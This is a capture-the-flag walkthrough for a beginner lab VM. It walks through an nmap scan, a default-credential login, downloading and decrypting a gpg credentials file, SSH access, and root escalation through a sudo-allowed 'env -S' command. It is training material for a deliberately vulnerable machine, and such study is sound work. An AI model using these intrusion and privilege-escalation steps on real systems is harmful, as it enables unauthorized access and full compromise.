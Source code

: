 #  Welcome to my ChaosVM Walkthrough
This is the first and easiest of the EvilPWN CTF VMs. If you want to tackle this challenge you can download the VM from here:
`https://evilpwnctf.github.io/vms/`
## 1. Initial scan
Once we have our lab set up, we go ahead as usual and perform a regular, noisy nmap scan to all ports 
```nmap
nmap -A -p- 192.168.1.229
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-02 22:44 BST
Nmap scan report for 192.168.1.229
Host is up (0.0016s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 88:0b:3f:3e:2f:57:57:7b:ad:0c:c9:6e:f1:81:04:cc (RSA)
| 256 73:0d:46:00:0e:43:78:97:94:37:fa:ac:1e:9c:a9:69 (ECDSA)
|_ 256 84:f3:72:01:cb:29:7a:ac:ad:1d:e9:5f:e0:50:3d:db (ED25519)
1337/tcp open http Apache httpd 2.4.38
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ Basic realm=Atom's TOP SECRET PROTECTED FOLDER!
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: 401 Unauthorized
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.02 seconds
```
## 2. Enumerating website at Port 1337
##### :1337/index
Firstly we find ourselves with a login portal. The first thing coming right off the bat is trying the typical default creds, as nothing has been leaked from the initial scan `admin:admin`
Once we are in we are led towards the folder `/data`. We are also provided with a suspicious string, `#chaoseverywhere`. We take a note of it and save it for later.
##### :1337/data
We see a file named `creds.txt.gpg`. It's time for us to grab the file. We can either use wget or curl, I prefer wget myself: `wget http://admin:admin@192.168.1.229:1337/data/creds.txt.gpg`
## 3. Decrypting the file
Given a txt.gpg file, we assume it's a plain text file encrypted with gpg. After a quick `man gpg` research, we learn we can decrypt it easily using -d: `gpg -d creds.txt.gpg`
This is the time to try the suspicious string we found earlier, the password to decrypt the file is `chaoseverywhere`
Now we have the creds for Port 22: `bob:pwn4abl3p4ssw0rd7331`
## 4. Privileges Escalation:
We connect to port 22 using ssh and the creds we found in the earlier step.
After some minutes enumerating and finding nothing, it's time we tried to escalate privileges. If we do `sudo -l` we see we can run `/usr/bin/env` as root.
If we check the manpage of `env`, we see we can parse commands using -S, so we go ahead and try 
```bash
env -S whoami
root
```
We finish the machine reading the root.txt file in the root folder:

```bash
env -S cat /root/root.txt
```

## Conclusion
This has been a nice and short VM for beginners that covers some web enumerating, cryptography and linux privesc. Submit your flag in EvilPWN CTF discord channel.
Brought to us by the autor âtøm, thank you very much. You can follow him on his github page https://github.com/0xatom and in EvilPWN CTF Discord server.

